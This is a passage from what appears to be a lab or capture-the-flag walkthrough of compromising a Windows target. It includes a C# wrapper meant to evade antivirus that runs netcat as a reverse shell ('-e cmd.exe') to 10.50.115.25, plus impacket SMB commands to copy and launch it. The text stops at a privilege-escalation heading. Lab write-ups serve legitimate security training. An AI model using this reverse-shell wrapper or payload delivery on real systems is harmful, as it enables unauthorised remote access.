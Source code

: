 ```
         BU)(A;OICIIOID;GA;;;CO)(A;ID;0x1200a9;;;AC)(A;OICIIOID;GXGR;;;AC)(A;ID;0x1200a9;;;S-1-15-2-2)(A;OICIIOID;GXGR;
         ;;S-1-15-2-2)
```

We have full control over this directory! How strange, but hey, Thomas' security oversight will allow us to root this target.

Now we have to evade the AV and be able to run nc. For this purpose we have to write a wrapper which will evade the AV.

## wrapper.cs

```
using System;
using System.Diagnostics;

namespace Wrapper{
	class Program{
		static void Main(){
			Process proc = new Process();
			ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-n00bmast3r.exe", "10.50.115.25 443 -e cmd.exe");
			procInfo.CreateNoWindow = true;
			proc.StartInfo = procInfo;
			proc.Start();
		}
	}
}
```

mcs wrapper.cs => Compiles the cs file to exe. And now we have wrapper.exe. We can send it by spinning up a python server but we are using impacket to start a SMB server.

**NOTE: Impacket usually uses SMBv1 so we have to mention SMBv2 while using the command**

# Local Machine

1. sudo python3 /opt/impacket/examples/smbserver.py share . -smb2support -username user -password 1503

# Remote Machine

1. net use \\10.50.115.25\share /USER:user 1503
2. copy \\10.50.115.25\share\Wrapper.exe %TEMP%\wrapper-n00bmast3r.exe
3. net use \\10.50.115.25\share /del => Disconnect
4. "%TEMP%\wrapper-n00bmast3r.exe" => And we have a shell!

# Privilege Escalation
